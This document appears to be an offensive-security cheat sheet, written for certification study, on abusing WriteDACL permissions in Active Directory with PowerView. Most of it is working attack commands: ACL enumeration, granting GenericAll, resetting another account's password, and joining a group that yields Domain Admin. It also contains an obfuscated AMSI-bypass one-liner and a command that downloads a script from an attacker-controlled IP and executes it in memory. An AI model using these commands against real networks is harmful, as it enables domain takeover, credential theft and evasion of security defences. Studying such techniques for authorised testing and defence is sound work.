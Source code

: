# WriteDACL Exploitation

## Using PowerView Add-DomainObjectAcl

1. Enumerate misconfigured user accounts.

```PowerShell
PS C:\tools> Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

If our user has WriteDACL access, it allows us to add new access rights like GenericAll.

2. Using the Add-DomainObjectAcl PowerView module add GenericAll rigth.

```PowerShell
PS C:\> Add-DomainObjectAcl -TargetIdentity devservice1 -PrincipalIdentity v0lk3n -Rights All
```

Although the method is called Add-DomainObjectAcl, it will actually modify the current ACE if an entry already exists.

3. After attempting to modify the DACL, we'll dump it again to verify that GenericAll was applied correctly.

```PowerShell
PS C:\> Get-ObjectAcl -Identity devservice1 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

Now we can proceed to change it's password

```bash
net user devservice1 h4x /domain
```

Although enumerating access rights for our current user is benefical, we can also map out all access rights to locate other user accounts or groupts that can lead to compromise.

## Using PowerView AddDomainGroupMember 

![alt text](https://github.com/V0lk3n/OSEP-CheatSheet/blob/main/ActiveDirectoryAndExploit/WriteDACL-Exploitation/img/bloodhound-writedacl.png?raw=true)

We can see that the Domain Group "SQL Admin" have WriteDACL right against "WebAdmins" group. And WebAdmins group is member of Domain Admin, so if we are part of WebAdmins we are DA.

Assuming that we got an user inside the SQL Admin group, we can exploit the WriteDACL right to add an user that we already have access, to the WebAdmins group to become DA.

1. As user of SQL Admin group add an user that we already have access to, to the Web Admins group giving him all rights.

```bash
# As the user of SQL Admin group
C:\>powershell.exe -nop -exec bypass

PS C:\> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

PS C:\> (new-object system.net.webclient).downloadstring('http://192.168.x.x:8080/PowerView.ps1') | iex

PS C:\> Add-DomainGroupMember -Identity 'WEBADMINS' -Members 'V0lk3n' -Rights all
```

2. Verify that V0lk3n is part of WebAdmins group.

```PowerShell
PS C:\> Get-DomainUser -Identity V0lk3n
Get-DomainUser -Identity V0lk3n
...
givenname             : V0lk3n
memberof              : CN=WebAdmins,OU=TGroups,DC=sinhack,DC=com
...
```

3. Now as DomainAdmin we can fire up SecretDump or whatever and pwn all the domain.
